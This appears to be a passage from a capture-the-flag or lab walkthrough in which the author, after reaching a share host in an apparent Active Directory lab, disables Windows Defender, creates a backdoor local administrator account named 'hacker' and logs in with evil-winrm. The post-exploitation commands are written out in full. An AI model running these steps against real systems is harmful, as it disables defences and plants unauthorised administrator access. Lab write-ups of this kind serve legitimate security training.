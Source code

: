 <figure><img src="../.gitbook/assets/Pasted image 20240325112059.png" alt=""><figcaption></figcaption></figure>

we have now access to share.academy.ninja.lan

### **From Share to Domain Admin**

_From Share to GMSANFS$_ First disable antivirus

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

And then create a new administrator user to get a more stable shell

```powershell
New-LocalUser -Name "hacker" -Password (ConvertTo-SecureString "hacker" -AsPlainText -Force)
```

```powershell
net localgroup Administrators /add hacker
```

And now i can access with the command

```bash
evil-winrm -i 192.168.58.23 -u "share\hacker" -p hacker
```

<figure><img src="../.gitbook/assets/Pasted image 20240325112521.png" alt=""><figcaption></figcaption></figure>

